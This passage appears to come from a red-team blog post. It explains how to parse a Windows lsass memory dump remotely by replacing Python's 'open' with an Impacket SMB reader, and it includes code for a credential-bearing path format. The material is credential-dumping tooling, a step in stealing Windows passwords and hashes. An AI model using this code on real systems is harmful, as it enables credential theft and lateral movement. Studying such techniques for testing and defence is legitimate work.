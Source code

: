 ```python
        #logger.info('Credentials parsing error!')
        mimi.log_basic_info()
        raise e
    return mimi
```

It apperas that it's `MinidumpFile` class from `minidump` package that handles the parsing. We need to go a little deeper and focus on [minidump](https://github.com/skelsec/minidump).

In `Minidumpfile` class, `parse` methode is described as follow :

```python
@staticmethod
def parse(filename):
    mf = MinidumpFile()
    mf.filename = filename
    mf.file_handle = open(filename, 'rb')
    mf._parse()
	return mf
```

This is the code that we were looking for. The lsass dump that we are trying to analyze is opened and then parsed. The parsing is only using `read`, `seek` and `tell` method on the file object. 

We just have to write some code than implements these methods but on a remote file. We'll use Impacket for this purpose.

```python
"""
'open' is rewritten to open and read a remote file
"""
class open(object):
    def __init__(self, fpath, mode):
        domainName, userName, password, hostName, shareName, filePath = self._parseArg(fpath)
        """
        ImpacketSMBConnexion is a child class of impacket written to simplify the code
        """
        self.__conn = ImpacketSMBConnexion(hostName, userName, password, domainName)
        self.__fpath = filePath
        self.__currentOffset = 0
        self.__tid = self.__connectTree(shareName)
        self.__fid = self.__conn.openFile(self.__tid, self.__fpath)        

    """
    Parse "filename" to extract remote credentials and lsass dump location
    """
    def _parseArg(self, arg):
        pattern = re.compile(r"^(?P<domainName>[a-zA-Z0-9.-_]+)/(?P<userName>[^:]+):(?P<password>[^@]+)@(?P<hostName>[a-zA-Z0-9.-]+):/(?P<shareName>[^/]+)(?P<filePath>/(?:[^/]*/)*[^/]+)$")
        matches = pattern.search(arg)
        if matches is None:
            raise Exception("{} is not valid. Expected format : domain/username:password@host:/share/path/to/file".format(arg))
        return matches.groups()
    
    def close(self):
        self.__conn.close()

    """
    Read @size bytes
    """
    def read(self, size):
        if size == 0:
            return b''
        value = self.__conn.readFile(self.__tid, self.__fid, self.__currentOffset, size)
        return value
```